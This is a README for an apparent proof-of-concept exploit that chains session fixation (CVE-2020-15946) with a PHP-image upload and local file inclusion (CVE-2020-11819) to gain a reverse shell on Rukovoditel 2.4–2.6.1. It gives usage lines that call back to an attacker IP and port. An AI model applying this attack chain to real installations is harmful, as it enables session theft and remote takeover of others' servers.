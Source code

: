 # PoC-RCE-Rukovoditel
Proof of concept for CVE-2020-11819 and CVE-2020-15946. Tested on Rukovoditel 2.4.x, 2.5.x and 2.6.1
 
# Description:
This exploit has two modes of execution, using the session fixation vulnerability (CVE-2020-15946) or using the access credentials of any account under any profile. 
With the --type L option, this script will create a malicious link, if the link is accessed in a browser by the victim, an arbitrary session identifier will be set that will be used to steal their session after uploading an image with PHP content on their photo profile, and then use local file include (CVE-2020-11819) to get a nice reverse shell or, with the options --type C -u <username> -p <password> you can provide credentials, load the image with PHP content and use local file inclusion (CVE-2020-11819) to achieve the execution of code. 

Protip: remember to check if the registration module is enabled ;)

# Usage
exploit.py -t <target> -a L --ip attacker IP --port attacker port [options]
exploit.py -t <target> -a C -u <username> -p <password> --ip attacker IP --port attacker port [options]

Post-authenticate RCE for rukovoditel, script version 1.0

optional arguments:  
-h, --help            show this help message and exit  
-t URL, --target URL  URL/Full path to CMS Rukovoditel http://url/path/to/cms/  
-u USER, --user USER  Username for authentication  
-p PASSWORD, --password PASSWORD Password for authentication  
-a TYPE, --type TYPE  Use -a L to generate the link and steal the session or use -a C if you have access credentials to the web application  
--ip IP_ATTACKER      IP attacker for reverse shell!  
--port PORT_ATTACKER  Port for reverse shell connection  
--proxy PROXY         Setup http proxy for debbugin http://127.0.0.1:8080  
